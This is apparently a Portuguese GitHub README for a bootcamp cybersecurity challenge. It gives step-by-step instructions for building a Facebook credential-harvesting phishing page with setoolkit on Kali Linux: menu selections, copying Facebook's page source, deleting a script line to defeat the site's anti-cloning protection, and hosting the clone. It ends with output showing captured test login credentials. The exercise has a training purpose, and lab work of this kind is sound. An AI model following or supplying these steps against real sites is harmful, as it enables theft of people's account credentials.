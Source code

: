 # Phishing para a captura de credenciais do Facebook

Este é um desafio proposto pela DIO no Santander Bootcamp Cibersegurança #2.

## Ferramentas
- Kali Linux
- setoolkit

## Configurando o Phishing no Kali Linux
- Acesso root: `sudo su`
- Iniciando o setoolkit: `setoolkit`
- Tipo de ataque **Social-Engineering Attacks**: `1`
- Vetor de ataque **Website Attack Vectors**: `2`
- Método de ataque **Credential Harvester Attack Method**: `3`

A partir deste ponto, usar a opção **Site Cloner** para coletar as credenciais do facebook não é suficiente, devido as medidas de segurança do site. Para contornar este problema, utilizei o [método sugerido pelo Weslley Costa](https://github.com/cassiano-dio/cibersecurity-desafio-phishing), que consiste em usar a opção **Custom Import** do _setoolkit_.

- Método de ataque: **Custom Import**: 3
- Em seguida, o _setoolkit_ vai pedir para inserir o IP em que será hospedado a página phishing. Apenas pressione ENTER para usar o IP da máquina. Para conferir o IP manualmente, execute o comando `ifconfig`.

### Configurando a página phishing
- Crie um arquivo chamado `index.html`
- Acesse https://www.facebook.com no seu navegador
- Clique com o botão direito e clique em **View Page Source**
- Copie o código fonte da página e cole no arquivo `index.html` criado
- Abra o arquivo e identifique e delete a linha que contém:
    
    `<script src="https://static.xx.fbcdn.net/rsrc.php/v4/yh/r/eu52kbGWc19.js" data-bootloader-hash="lp6Cw4s" crossorigin="anonymous"></script>`
    
    Lembre-se de salvar o arquivo.

### Finalizando a configuração no setoolkit
- Voltando ao _setoolkit_, insira o caminho do diretório que contém o arquivo `index.html`
- Selecione a opção **Copy the entire folder**: `2`
- Por fim, insira a URL do site importado. Neste caso: `http://www.facebook.com`

## Resultados

Após inserir as credenciais no site phishing acessado através do IP fornecido no _setoolkit_, os dados são coletados e mostrados no programa:
```
192.168.100.101 - - [14/Dec/2024 14:46:17] "GET / HTTP/1.1" 200 -
[*] WE GOT A HIT! Printing the output:
PARAM: jazoest=21044            
PARAM: lsd=AVpj4siniQk                                                             
POSSIBLE USERNAME FIELD FOUND: email=testando@gmail.com                                            
POSSIBLE PASSWORD FIELD FOUND: pass=testando12345                                                  
POSSIBLE USERNAME FIELD FOUND: login_source=comet_headerless_login                                 
PARAM: next=          
POSSIBLE USERNAME FIELD FOUND: login=1                                                             
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT. 
```

